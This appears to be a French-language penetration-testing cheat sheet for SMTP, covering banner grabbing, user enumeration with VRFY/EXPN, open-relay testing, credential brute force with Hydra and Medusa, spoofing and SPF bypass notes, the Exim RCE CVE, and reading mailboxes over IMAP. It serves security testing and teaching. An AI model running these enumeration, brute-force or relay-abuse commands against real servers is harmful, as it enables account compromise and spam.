

Le protocole **SMTP** (Simple Mail Transfer Protocol) est utilisé pour l'envoi d'emails. Une mauvaise configuration peut permettre l'énumération des utilisateurs, le bruteforce des comptes et l'exploitation de relais ouverts.



## Ports SMTP

- **25/TCP** : SMTP standard (souvent restreint aux mails internes)
- **465/TCP** : SMTPS (SMTP sécurisé avec SSL/TLS)
- **587/TCP** : SMTP AUTH (authentification requise, souvent avec STARTTLS)

## Vérification de la connexion

### Connexion via Telnet (SMTP non chiffré)

```bash
telnet target.com 25
```

### Connexion avec OpenSSL (SMTP TLS)

```bash
openssl s_client -starttls smtp -connect target.com:587
```

## Obtention de la bannière

### Identification du serveur et de sa version

```bash
nc target.com 25
```

Sortie attendue :
```text
220 mail.target.com ESMTP Postfix
```

## Énumération des commandes

### Lister les commandes SMTP disponibles

```bash
EHLO target.com
```

Exemple de réponse :
```text
250-mail.target.com
250-AUTH LOGIN PLAIN
250-STARTTLS
250-PIPELINING
```

## Énumération des utilisateurs

> [!warning]
> L'utilisation de **VRFY**/**EXPN** est souvent détectée par les IDS/IPS.

### Tester VRFY (Vérification d'utilisateur)

```bash
VRFY admin
```

### Tester EXPN (Expansion de groupe)

```bash
EXPN staff
```

### Automatisation avec Nmap

```bash
nmap --script=smtp-enum-users -p 25 target.com
```

## Envoi manuel d'emails

```bash
MAIL FROM:<attacker@hacker.com>
RCPT TO:<victim@target.com>
DATA
Subject: Test
Hello
.
```

## Vérification de relai ouvert

> [!danger]
> L'envoi de mails via un **open relay** peut mener à des poursuites légales si utilisé sur des cibles non autorisées.

> [!tip]
> Le test de relai ouvert doit être effectué avec une adresse mail sous votre contrôle pour éviter le spam réel.

### Tester le relai ouvert avec Telnet

```bash
MAIL FROM:<test@attacker.com>
RCPT TO:<victim@external.com>
DATA
Subject: Relai Test
This is a test.
.
```

### Scanner un Open Relay avec Nmap

```bash
nmap --script=smtp-open-relay -p 25 target.com
```

## Authentification et bruteforce

> [!note]
> Prérequis : Une liste d'utilisateurs valide est nécessaire pour le bruteforce efficace.

### Bruteforce avec Hydra

```bash
hydra -L users.txt -P passwords.txt target.com smtp -V
```

### Bruteforce avec Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M smtp
```

## Analyse des en-têtes d'emails (Mail Header Analysis)

L'analyse des en-têtes permet d'identifier l'infrastructure interne (IPs privées, serveurs de rebond, versions de logiciels).

```text
Received: from mail.internal.corp (10.0.0.5) by mail.target.com ...
X-Mailer: Microsoft Outlook 16.0
```
Utilisez `grep` ou des outils comme `eml-analyzer` pour extraire les champs `Received`, `X-Originating-IP` et `X-Mailer`.

## Techniques de contournement de filtres (SPF/DKIM/DMARC)

Si le serveur SMTP est protégé, le spoofing nécessite de valider les politiques de domaine.

- **SPF** : Vérifiez le champ TXT DNS : `dig txt target.com`
- **Contournement** : Si le serveur SMTP cible autorise le relai depuis une IP interne, le SPF peut être ignoré par les serveurs de destination internes.
- **DKIM** : Vérifiez la présence de clés publiques dans `_domainkey.target.com`.

## Exploitation de vulnérabilités spécifiques

Vérifiez la version du serveur (ex: Postfix, Exim) obtenue via la bannière.

- **Exim (CVE-2019-10149)** : Permet l'exécution de code à distance (RCE) via une manipulation du champ `RCPT TO`.
- **Postfix** : Recherchez des vulnérabilités liées à la configuration de `smtpd_recipient_restrictions`.

Utilisez `searchsploit` pour identifier les exploits locaux :
```bash
searchsploit postfix 3.4.0
```

## Post-exploitation : lecture de mails via IMAP/POP3

Si des identifiants valides ont été obtenus via bruteforce SMTP, testez-les sur les services IMAP (143/993) ou POP3 (110/995).

```bash
openssl s_client -connect target.com:993
a1 LOGIN username password
a2 LIST "" "*"
a3 FETCH 1 BODY[HEADER]
```

## Extraction d'informations via SNMP

Cette section concerne l'utilisation de **SNMP** pour interroger des services liés à la messagerie.

```bash
snmpwalk -v2c -c public target.com 1.3.6.1.2.1.25.2.3.1.6
```

## Récapitulatif des commandes

| Étape | Commande |
| :--- | :--- |
| Connexion Telnet (Port 25) | `telnet target.com 25` |
| Connexion TLS (Port 587) | `openssl s_client -starttls smtp -connect target.com:587` |
| Obtenir la bannière SMTP | `nc target.com 25` |
| Lister les commandes disponibles | `EHLO target.com` |
| Tester VRFY | `VRFY admin` |
| Tester EXPN | `EXPN staff` |
| Envoyer un mail | `MAIL FROM:<test@hacker.com> RCPT TO:<victim@target.com>` |
| Vérifier si SMTP autorise le relai | `nmap --script=smtp-open-relay -p 25 target.com` |
| Bruteforce des identifiants | `hydra -L users.txt -P passwords.txt target.com smtp -V` |

Voir également les notes sur **Enumeration**, **Hydra**, **Nmap** et **SNMP Enumeration**.